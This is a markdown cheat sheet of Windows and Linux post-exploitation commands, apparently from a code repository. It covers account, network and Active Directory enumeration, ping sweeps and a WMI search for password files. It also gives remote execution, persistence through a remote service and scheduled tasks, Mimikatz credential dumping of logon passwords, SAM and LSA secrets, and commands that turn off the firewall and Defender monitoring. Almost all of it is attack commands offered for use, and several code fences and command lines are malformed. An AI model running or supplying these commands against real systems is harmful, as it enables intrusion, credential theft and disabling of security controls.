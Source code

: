 ## Account Discovery :
• Current user
````
C:\> whoami
 ````
• Windows
````
C:\> net user
C:\> net group
C:\> net localgroup
``````

• Linux and UNIX
````
$ groups
$ cat /etc/passwd
``````
## Processes Running on target 
- Windows
````
C:\> tasklist
C:\> sc
C:\> net start
```````
• Linux and UNIX
``````
$ ps
$ top
````````
## Network Enumeration: 

- Windows:
```
C:\> ipconfig /all
C:\> netstat –na
C:\> net session
C:\> C:\> ipconfig /displaydns
`````
• Linux and UNIX:
````
# ifconfig
# netstat –natu
```````
– Linux, UNIX, and Windows:
```````
netstat –nr
arp –a
``````````
## Internal Scanning

- ping 10.0.0.1
````
C:\> for /L %i in (1,1,255) do @ping –n 1
````````
- find "TTL"
```
PS C:\> 1..255 | % {ping –n 1 10.0.0.$_ | sls ttl}
`````
- Listing computer in sysyem
`````
C:\> wmic computersystem LIST full
C:\> wmic /node:[targetIP] /user:[admin_user] /password:[password] computersystem LIST full
``````
- File Search:
```
C:\> wmic DATAFILE where "drive='C:' AND Name like '%password%’” GET Name,readable,size /VALUE
`````
## AD Enumeration:
- Local User Accounts:
```
C:\> wmic USERACCOUNT Get Domain,Name,Sid
```````
- Domain Enumeration:
````
C:\> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE
```````
- List all Users:
`````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
``````
- Members of a Group:
``````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value
````````
- List all computers:
````
C:\> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
``````
## Persistance using command shells:

- Execute Remote Commands:
```
C:\> wmic process call create "cmd.exe /c calc.exe"
``````
## Make persistance using service process:
 ````
 C:\> sc \\[targetIP] create netcat binpath= "cmd.exe /k <executable>"
 C:\> sc \\[targetIP] start [svcname]
 ````````
- Finding Scheduled processes:
 ```
  C:\> sc query schedule 
  C:\> schtasks /create /tn [taskname] /sc [frequency] /st [starttime] /sd [startdate] /tr [payload]
  ``````
##  Mimikatz Dumping:
 ```` 
 # privilege::debug
 # sekurlsa::logonpasswords
 # sekurlsa::tickets /export
 # vault::cred
 # vault::list
 # token::elevate
 # lsadump::sam
 # lsadump::secrets
 # lsadump::cache
```````
## Turn off your firewall:
- Turn of Firewall:
```
C:\> netsh advfirewall set allprofiles state off
ps:\> Set MpPreferance RealTimeMonitoringSystemOf: $True
```````
- Antivirus:
`````````
C:\> wmic /namespace:\\root\securitycenter2 path antivirusproduct
``````````
